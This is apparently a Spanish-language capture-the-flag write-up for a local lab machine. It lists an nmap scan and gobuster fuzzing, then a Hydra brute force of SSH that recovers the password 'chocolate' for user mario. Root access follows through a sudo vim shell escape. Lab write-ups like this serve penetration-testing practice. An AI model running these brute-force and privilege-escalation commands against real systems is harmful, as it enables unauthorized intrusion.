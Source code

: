 Primero de todo realizaremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados.

```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```

![[Pasted image 20240426135632.png]]

Vemos que está corriendo una web, vamo a ver que esconde.
![[Pasted image 20240426135805.png]]

Vemos que está la página de apache por defecto, por lo tanto procediremos a realizar un fuzzing de la web.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt
```

![[Pasted image 20240426140646.png]]

Abriremos la pagina secrt.php para ver que esconde.
![[Pasted image 20240426140835.png]]

Vemos que nos está dando el usuario así que podemos intentar un ataque de fuerza bruta para poder entrar vía ssh.

```
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20240426141036.png]]

Vemos que hemos obtenido las credenciales, ahora entraremos vía ssh.

```
ssh mario@172.17.0.2
password: chocolate
```

![[Pasted image 20240426141227.png]]

Ya estamos dentro, ahor avamos a intentar acceder al usuario administrador (root).

```
sudo -l
password: chocolate
```

![[Pasted image 20240426141357.png]]

Vemos que nos muestra el binario vim que tiene permisos de administrador, por lo tanto, vamos a intentar usarlo para escalar privilegios.

```
sudo /usr/bin/vim -c ':!/bin/sh'
```

```
whoami
```

![[Pasted image 20240426141740.png]]
